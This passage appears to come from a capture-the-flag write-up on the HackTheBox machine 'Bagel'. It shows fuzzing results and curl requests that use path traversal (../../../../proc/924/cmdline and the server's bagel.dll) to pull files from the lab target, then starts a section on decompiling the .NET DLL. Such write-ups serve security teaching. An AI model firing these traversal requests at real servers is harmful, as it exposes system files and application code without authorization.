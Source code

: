 ```
929                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 96ms]
930                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 102ms]
1035                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
1043                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 88ms]
1045                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 90ms]
:: Progress: [10000/10000] :: Job [1/1] :: 229 req/sec :: Duration: [0:00:44] :: Errors: 0 ::

```

There’s a bunch of hits, but all the same size (and all the same on some inspection).

#### Get File

The various `cmdlines` are all the same:

```

oxdf@hacky$ curl -o- http://bagel.htb:8000/?page=../../../../proc/924/cmdline
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll

```

I’m able to get the DLL file:

```

oxdf@hacky$oxdf@hacky$ curl -o bagel.dll http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10752  100 10752    0     0  61497      0 --:--:-- --:--:-- --:--:-- 61793
oxdf@hacky$ file bagel.dll 
bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows

```

### Reverse bagel.dll

#### Strategy

Because the executable is a .Net assembly, that means it will decompile back to something resembling source fairly easily. There are tools to do this on Linux (such as [ilspy](https://github.com/icsharpcode/ILSpy)) and many on Windows. My favorite is [DNSpy](https://github.com/dnSpy/dnSpy), which runs on Windows, and I’ll show that here. The others are just as good - I’d recommend people use the one they are most comfortable with.

#### Overview

The program has the namespace `bagel_server`, with six classes in it. The main program is based out of the `Bagel` class, which starts in `Main`, but really is handled by `MessgeReceived`.

![image-20230530202711370](/img/image-20230530202711370.png)

The other important classes for understanding how the program works and how to exploit it are `Handler`, `Orders`, and `File`. I’ll also look at the `DB` class to get some information for later.
